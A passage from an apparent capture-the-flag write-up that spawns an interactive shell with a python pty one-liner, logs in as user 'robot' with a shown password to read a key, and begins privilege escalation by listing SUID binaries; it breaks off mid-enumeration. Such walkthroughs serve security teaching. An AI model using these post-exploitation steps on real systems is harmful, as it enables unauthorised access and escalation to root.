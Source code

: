 We can login as `robot` using `su`

```
$ su robot
su: must be run from a terminal 
```

To use `su` we need to be logged in to a TTY terminal which we currently are not.

No worries though! There's a myriad of ways we can get one detailed here https://netsec.ws/?p=337

We'll use this one

```
$ python -c 'import pty; pty.spawn("/bin/sh")'
$
```

In linux No news is good news - if we didn't see an error it was probably ok.

Lets try login as robot again.

```
$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:/$
```

Sucess! We are logged in as Robot lets get that key!

```
robot@linux:/$ cat ~/key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

# Flag #3

## Privilege Escalation II

We managed to log in as a proper user on the server. Buy why stop now? We want `root`

Let's look for binaries with the [SUID bit](https://www.linuxnix.com/suid-set-suid-linuxunix/) set on their file permission

```bash
robot@linux:~$ find / -perm -4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```
